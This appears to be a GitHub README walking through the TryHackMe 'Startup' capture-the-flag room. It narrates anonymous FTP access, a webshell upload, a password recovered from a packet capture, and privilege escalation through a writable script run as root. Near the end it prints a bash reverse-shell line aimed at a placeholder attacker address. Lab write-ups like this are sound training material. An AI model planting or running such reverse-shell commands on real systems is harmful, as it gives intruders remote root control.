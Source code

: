 # Startup CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Startup** CTF challenge on [TryHackMe](https://tryhackme.com/room/startup). 
---

scan 

![scan](imgs/scan.png "scan")

![ferox](imgs/ferox.png "ferox")

logging to ftp as anonymous and grabbing 2 files we might got our first user `Maya`

![ftp](imgs/ftp.png "ftp")

![note](imgs/note.png "note")

we see that ftp and webpage look the same so maybe we could upload a webshell via ftp

![web](imgs/web.png "web")

we cant upload without changing directory to ftp first because we have full access to it

![ftpput](imgs/ftpput.png "ftpput")

after accessing the file via webpage we have reverse shell as `www-data`

![wwwdata](imgs/wwwdata.png "wwwdata")

found recipe.txt and we hace answer to first question on tryhackme 

![recipe](imgs/recipe.png "recipe")

found directory incidents with `pcapng` file inside

![incidents](imgs/incidents.png "incidents")

in wireshark we found similar communiaction (somebody using a shell) on tcp port 4444, if we follow the tcp stream we see few commands like `ls`, `cd`, `sudo -l`, `cat /etc/passwd` we see that somebody tried to input password to sudo -l but it didnt worked i tried the same password to login as lennie 

![wire](imgs/wire.png "wire")

and it worked we got user flag 

![user](imgs/user.png "user")

there is scripts directory with `planner.sh` script we cant modify it, but planner.sh uses another script `/etc/print.sh` which we can modify

![planner](imgs/planner.png "planner")

![printb](imgs/printb.png "printb")

the file doesnt show in `/etc/crontab` but will probably be executed as root

we could check by using command

```
ps aux | grep "planner.sh"
```

![psaux](imgs/psaux.png "psaux")

adding simple reverse shell into /etc/print.sh

```
#!/bin/bash
bash -i >& /dev/tcp/10.X.X.X/PORT 0>&1
```
![print](imgs/print.png "print")


we got our shell as root and we can grab the root flag 

![root](imgs/root.png "root")

## MACHINE PWNED
